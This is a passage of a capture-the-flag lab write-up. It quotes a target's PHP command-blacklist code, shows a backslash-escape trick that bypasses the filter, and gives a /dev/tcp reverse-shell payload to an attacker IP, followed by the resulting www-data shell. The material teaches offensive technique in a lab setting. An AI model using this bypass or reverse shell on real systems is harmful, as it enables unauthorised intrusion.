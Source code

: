 **There is a filtering in the website and some commands have been blacklisted.**
```php
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
```
To bypass filter, then you have to escape the filtered commands with `\`

#### shell.

**Payload**
```
\bash -c 'exec \bash -i &>/dev/tcp/10.9.11.230/1234 <&1'
```

**On our netcat machine.**
```
www-data@ubuntu:/var/www/html/secret$ whoami
www-data
```

**We are in**
### User flag.

**List files**
```
www-data@ubuntu:/var/www$ ls
files  html
```

**navigating to files.**
```
www-data@ubuntu:/var/www/files/images$ ls
002d7e638fb463fb7a266f5ffc7ac47d.gif  hacker-with-laptop_23-2147985341.jpg
```

**hacker-with-laptop Image**

![image](/assets/img/chillhack/hacker-with-laptop.jpg)
